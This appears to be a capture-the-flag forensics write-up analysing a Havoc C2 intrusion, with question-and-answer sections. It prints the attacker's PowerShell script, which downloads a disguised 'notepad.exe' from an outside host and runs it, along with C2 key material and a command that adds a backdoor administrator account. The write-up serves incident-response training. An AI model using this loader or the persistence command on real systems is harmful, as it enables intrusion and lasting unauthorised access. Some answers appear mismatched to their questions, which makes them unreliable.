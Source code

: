 - **install.ps1**

![Pasted image 20250422211550.png](../../Image/Pasted%20image%2020250422211550.png)

```
$aysXS8Hlhf = "http://10.0.2.37:1337/notepad.exe";
$LA4rJgSPpx = "C:\Users\paco\Downloads\notepad.exe";
Invoke-WebRequest -Uri $aysXS8Hlhf -OutFile $LA4rJgSPpx;
$65lmAtnzW8 = New-ObjectSystem.Net.WebClient;$65lmAtnzW8.DownloadFile($aysXS8Hlhf, $LA4rJgSPpx);
Start-Process -Filepath $LA4rJgSPpx
```
- **Object list:**

![Pasted image 20250422205617.png](../../Image/Pasted%20image%2020250422205617.png)

- **notepad.exe**

![Pasted image 20250422214535.png](../../Image/Pasted%20image%2020250422214535.png)

- **Havoc Artifact** from network traffic
```
[+] Parsing Request
[+] Found Havoc C2
  [-] Agent ID: 0e9fb7d8
  [-] Magic Bytes: deadbeef
  [-] C2 Address: http://10.0.2.37/
  [+] Found AES Key
    [-] Key: 946cf2f65ac2d2b868328a18dedcc296cc40fa28fab41a0c34dcc010984410ca
    [-] IV: 8cd00c3e349290565aaa5a8c3aacd430
```
## IOCs
#### **IP Address:**
- hxxp[:]//10.0.2.37
#### **File:**
- /install.ps1
- /notepad.exe
- /notepad.exe

---
## Answer the question

- What is the SID of the user that the attacker is executing everything under?

![Pasted image 20250422234306.png](../../Image/Pasted%20image%2020250422234306.png)

- What is the Link-local IPv6 Address of the server? Enter the answer exactly as you see it.

![Pasted image 20250422232038.png](../../Image/Pasted%20image%2020250422232038.png)

=> **fe80::e134:1b0c:c8d5:3020%6**

- The attacker printed a flag for us to see. What is that flag?

![Pasted image 20250422232647.png](../../Image/Pasted%20image%2020250422232647.png)

- The attacker added a new account as a persistence mechanism. What is the username and password of that account? Format is **username:password** 

![Pasted image 20250422225827.png](../../Image/Pasted%20image%2020250422225827.png)

```
dir C:\Users\paco\Desktop\
type C:\Users\paco\Desktop\Files\clients.csv
ipconfig
net user administrator WfD3hz3AXZ4n /add
```

- The attacker found an important file on the server. What is the full path of that file?

![Pasted image 20250422232845.png](../../Image/Pasted%20image%2020250422232845.png)

=> **C:\Users\paco\Desktop\Files\clients.csv**

- What is the flag found inside the file from question 5?

![Pasted image 20250422232446.png](../../Image/Pasted%20image%2020250422232446.png)

=> **C:\Users\paco\Desktop\Files\clients.csv**

